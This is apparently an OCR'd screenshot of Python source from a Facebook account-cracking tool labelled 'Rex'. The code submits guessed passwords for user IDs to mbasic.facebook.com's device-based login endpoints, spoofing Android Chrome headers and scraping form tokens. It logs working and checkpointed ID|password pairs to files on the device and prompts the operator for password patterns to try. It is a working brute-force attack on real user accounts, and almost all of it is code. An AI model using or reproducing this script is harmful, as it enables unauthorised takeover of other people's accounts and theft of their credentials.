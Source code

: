                 getlog = session.get(f'https://mbasic.facebook.com/login/device-based/password/?uid={sid}&flow=login_no_pin&refsrc=deprecated&_rdr')
                idpass ={"lsd":re.search('name="lsd" value="(.*?)"', str(getlog.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(getlog.text)).group(1),"uid":sid,"next":"https://mbasic.facebook.com/login/save-device/","flow":"login_no_pin","pass":ps,}
                session.headers = {}
                session.headers.update({'Host': 'mbasic.facebook.com', 'viewport-width': '980', 'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"', 'sec-ch-ua-mobile': '?1', 'sec-ch-ua-platform': 'Android', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent': sua, 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9', 'sec-fetch-site': 'none', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-PK,en-GB;q=0.9,en-US;q=0.8,en;q=0.7'})
                complete = session.post('https://mbasic.facebook.com/login/device-based/validate-password/?shbl=0',data=idpass,allow_redirects=False)
                if 'c_user' in session.cookies.get_dict():
                    print(f"\r{R} [Rex-OK] {sid} | {ps} {S}")
                    oks.append(sid)
                    open('/sdcard/Rex_OK.txt','a').write(sid+'|'+ps+'\n')
                    break
                elif 'checkpoint' in session.cookies.get_dict():
                    #print(f"\r{A} [Rex-CP] {sid} | {ps} {S}")
                    cps.append(sid)
                    open('/sdcard/Rex_CP.txt','a').write(sid+'|'+ps+'\n')
                    break
                else:
                    continue
                #time.sleep(31)
            
            loop+=1
        except requests.exceptions.ConnectionError:
             self.methodD(sid, name, ps)
            
    def pasw(self):       
            pw = []
            clear()
            print('Put limit between 1 to 30')
            sl = int(input('How many password do you want to add?: '))
            os.system("clear")
            print(logo)
            print(f'{S} [Example: first123,last1122,firstlast,last,ETC]')
            print('')
            if sl =='':
                print('\n Put limit between 1 to 30')
            elif sl > 20:
                print('\nPassword limit Should Not Be Greater Than 30')
            else:
                for sr in range(sl):
                    pw.append(input(f'Password {sr+1}: '))
            os.system("clear")
            print(logo)
            